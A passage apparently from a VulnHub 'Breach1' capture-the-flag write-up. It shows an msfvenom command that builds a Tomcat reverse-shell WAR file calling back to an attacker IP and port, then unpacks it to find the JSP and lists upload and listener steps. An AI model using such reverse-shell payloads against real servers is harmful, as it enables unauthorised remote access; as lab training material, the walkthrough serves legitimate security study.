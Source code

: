	![](images/Pasted%20image%2020220120034027.png)
4. Create reverse shell WAR file
	```
	┌──(root💀kali)-[~/vulnHub/Breach1/192.168.110.140/exploit/tomcat]
	└─# msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.110.102 LPORT=4444 -f war -o rev64.war
	[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
	[-] No arch selected, selecting arch: x64 from the payload
	No encoder specified, outputting raw payload
	Payload size: 74 bytes
	Final size of war file: 1568 bytes
	Saved as: rev64.war
	```
5. Determine `.jsp` file
	```
	┌──(root💀kali)-[~/vulnHub/Breach1/192.168.110.140/exploit/tomcat]
	└─# jar -xvf rev64.war
	Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
	  created: META-INF/
	 inflated: META-INF/MANIFEST.MF
	  created: WEB-INF/
	 inflated: WEB-INF/web.xml
	 inflated: odwzawzlkdcmzy.jsp
	```
6. Upload it
7. Start listener